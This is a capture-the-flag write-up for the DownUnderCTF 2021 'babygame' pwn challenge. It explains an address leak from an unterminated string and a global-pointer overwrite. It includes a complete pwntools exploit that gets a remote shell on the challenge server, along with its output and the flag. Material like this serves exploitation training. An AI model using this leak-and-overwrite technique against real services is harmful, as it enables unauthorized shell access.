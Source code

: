 # DownUnderCTF 2021

## babygame

> 100
> 
> Not your typical shell game...
> 
> Admin note: the server runs in a restricted environment where some of your favourite files might not exist. If you need a file for your exploit, use a file you know definitely exists (the binary tells you of at least one!)
>
> Author: grub
>
> `nc pwn-2021.duc.tf 31907`
>
> [`babygame`](babygame)

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _global-variable-overwrite_ _variable-overwrite_


## Summary

Leak a global variable address with an unterminated string, then overwrite said global with an address to a path to a predictable "urandom" to then "guess" the number and get a shell.

> Some bitched this was _guessy_.  This was not _guessy_ at all, they were just lazy.  The _Admin note_ above was caving into the demands of the lazy.

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Partial RELRO = GOT overwrite; Otherwise all mitigations in place.


### Decompile with Ghidra   

```c
void main(EVP_PKEY_CTX *param_1)
{
  int iVar1;
  
  init(param_1);
  puts("Welcome, what is your name?");
  read(0,NAME,0x20);
  RANDBUF = "/dev/urandom";
  do {
    while( true ) {
      while( true ) {
        print_menu();
        iVar1 = get_num();
        if (iVar1 != 0x539) break;
        game();
      }
      if (iVar1 < 0x53a) break;
LAB_0010126c:
      puts("Invalid choice.");
    }
    if (iVar1 == 1) {
      set_username();
    }
    else {
      if (iVar1 != 2) goto LAB_0010126c;
      print_username();
    }
  } while( true );
}
```

Both `NAME` and `RANDBUF` are globals (Ghidra actually color codes them to make them easy to spot, but I'm too lazy to take a screen shot and embed, so you'll have to see for yourself):

```
                     NAME 
001040a0 00 00 00        undefine...
         00 00 00 
         00 00 00 
                     RANDBUF 
001040c0 00 00 00        undefined8 0000000000000000h
         00 00 00 
         00 00
```

Notice that `NAME` is exactly `0x20` bytes before `RANDBUF`.  The `read(0,NAME,0x20);` does not terminate the input as a string, so if you input `0x20` (`32`) bytes and then read the string you can leak the value of `RANDBUF`.  `RANDBUF` is a pointer to a static string within the binary.  Using that pointer we can leak the process base address (PIE is enabled, so we need this leak).  If we know the process address, then we know the address of both `NAME` and `RANDBUF`.  We'll need this to win the `game`:

```
void game(void)
{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen(RANDBUF,"rb");
  fread(&local_14,1,4,__stream);
  printf("guess: ");
  iVar1 = get_num();
  if (iVar1 == local_14) {
    system("/bin/sh");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

`game` will open `RANDBUF` (set to `/dev/urandom` in `main`) and read 4 bytes.  You have to correctly guess the 4 bytes (2<sup>32</sup> possibilities) to win the game.

To _game_ the system we need to change `RANDBUF` to point to a string that is a file we know the contents of, or at least the first 4 bytes.  From the previous challenges we know the flag is `./flag.txt` and the first 4 bytes will be `DUCT`.  Other obvious options would be `./babygame` or `/bin/sh` (both have the same standard 4-byte ELF header).  To make this change we'll have to use:

```
void set_username(void)
{
  FILE *__stream;
  size_t __n;
  
  puts("What would you like to change your username to?");
  __stream = stdin;
  __n = strlen(NAME);
  fread(NAME,1,__n,__stream);
  return;
}
```

The bug here is that instead of limiting the input to `0x20` bytes like the initial `read` from `main`, it is limited by the length of the current `NAME`, which will be `0x20` + `6` (remember x86_64 address are usually 48-bits with `\0\0` as the most significant bytes) bytes IFF we started with a `0x20` (`32`) byte name and did not terminate with a null.

We have all the bits we need to exploit this challenge.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./babygame')

if args.REMOTE:
    p = remote('pwn-2021.duc.tf', 31907)
else:
    p = process(binary.path)

# send 32 byte name to leak address of binary
p.sendafter(b'?\n',32 * b'A')

# get binary address
p.sendlineafter(b'> ',b'2')
p.recv(32)
binary.address = u64(p.recv(6) + b'\0\0') - binary.search(b'/dev/urandom').__next__()
log.info('binary.address: ' + hex(binary.address))

# point RANDBUF to NAME; set NAME to ./flag.txt; we know flag starts with DUCT
p.sendlineafter(b'> ',b'1')

payload  = b''
payload += b'./flag.txt\0'
payload += (32 - len(payload)) * b'A'
payload += p64(binary.sym.NAME)[:6]

p.sendafter(b'?\n',payload)

# get shell
p.sendlineafter(b'> ',b'1337')
p.sendlineafter(b'guess: ',str(u32(b'DUCT')).encode())
p.interactive()
```

From top down, first we'll send `32` (`0x20`) bytes without a newline (hence `sendafter` vs `sendlineafter`).

Then we'll print the name to leak a binary address and compute the base.

Next we'll change our name to `./flag.txt\0` + enough garbage to get us to `RANDBUF` and set that pointer to point to `NAME`.

Finally, to get a shell we'll enter the magic number `1337` (see `main`), then send the bytes `DUCT` as an integer since that is what `get_num` expects.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2021/babygame/babygame'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn-2021.duc.tf on port 31907: Done
[*] binary.address: 0x55ab1e260000
[*] Switching to interactive mode
$ cat flag.txt
DUCTF{whats_in_a_name?_5aacfc58}
```
